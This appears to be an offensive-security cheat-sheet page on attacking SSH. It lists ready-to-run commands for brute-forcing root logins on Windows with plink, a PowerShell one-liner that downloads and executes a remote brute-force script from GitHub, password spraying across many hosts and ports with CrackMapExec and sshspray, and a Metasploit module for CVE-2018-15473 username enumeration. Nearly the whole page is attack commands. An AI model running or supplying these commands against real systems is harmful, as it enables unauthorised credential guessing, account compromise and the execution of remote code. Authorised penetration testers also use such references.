 ```yaml
---
description: Secure Shell
---
```


# SSH




## Brute Force

- [https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer](https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer)

From Windows:

```
PS > curl https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe -o plink.exe
PS > IEX(New-Object Net.WebClient).DownloadString("https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer/raw/master/ssh-putty-brute.ps1")
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw 'Passw0rd!'
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw (gc .\passwords.txt)
```




## Password Spray

- [https://github.com/mcorybillington/sshspray](https://github.com/mcorybillington/sshspray)

A list of targets with different SSH ports:

```
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $1}' > ssh_hosts
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $2}' > ssh_ports
$ paste ssh_hosts ssh_ports | while read host port; do cme ssh $host -u root -p root --port $port; done
```

Password spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u snovvcrash -p 'Passw0rd!' --key-file id_rsa
```

Using sshspray:

```
$ python3 sshspray.py -u snovvcrash -i ~/.ssh/id_rsa -t ssh.txt
```




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
